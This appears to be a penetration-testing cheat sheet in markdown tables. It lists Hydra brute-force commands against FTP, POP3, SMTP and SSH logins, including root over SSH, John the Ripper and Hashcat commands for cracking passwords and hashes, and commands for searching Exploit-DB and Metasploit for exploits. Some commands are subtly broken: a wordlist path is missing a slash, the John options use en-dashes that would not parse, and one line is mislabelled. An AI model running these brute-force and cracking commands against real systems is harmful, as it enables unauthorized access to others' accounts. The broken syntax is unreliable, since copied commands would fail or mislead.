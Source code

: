 | Command | Description |
|---------|-------------|
| `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V` | Hydra FTP brute force |

#### POP3 Brute Force

| Command | Description |
|---------|-------------|
| `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX pop3 -V` | Hydra POP3 brute force |

#### SMTP Brute Force

| Command | Description |
|---------|-------------|
| `hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V` | Hydra SMTP brute force |

#### SSH Brute Force

| Command | Description |
|---------|-------------|
| `hydra -l root -P /usr/share/wordlistsnmap.lst 192.168.X.XXX ssh` | Hydra SSH brute force |

> Use `-t` to limit concurrent connections, example: `-t 15`

## 🔐 Password Cracking

### John The Ripper – JTR

| Command | Description |
|---------|-------------|
| `john –wordlist=/usr/share/wordlists/rockyou.txt hashes` | JTR password cracking |
| `john –format=descrypt –wordlist /usr/share/wordlists/rockyou.txt hash.txt` | JTR forced descrypt cracking with wordlist |
| `john –format=descrypt hash –show` | JTR forced descrypt brute force cracking |

### Hashcat

| Command | Description |
|---------|-------------|
| `hashcat -m 0 -a 0 hash.txt wordlist.txt` | Hashcat MD5 cracking |
| `hashcat -m 1000 -a 0 hash.txt wordlist.txt` | Hashcat NTLM cracking |

## Exploit Research

| Command | Description |
|---------|-------------|
| `searchsploit windows 2003 | grep -i local` | Search exploit-db for Windows 2003 local exploits |
| `site:exploit-db.com exploit kernel <= 3` | Google search for kernel exploits on exploit-db.com |
| `grep -R "W7" /usr/share/metasploit-framework/modules/exploit/windows/*` | Search Metasploit modules for Windows 7 exploits |
| `msfconsole -q -x "search name:windows type:exploit"` | Search Metasploit for Windows exploits |
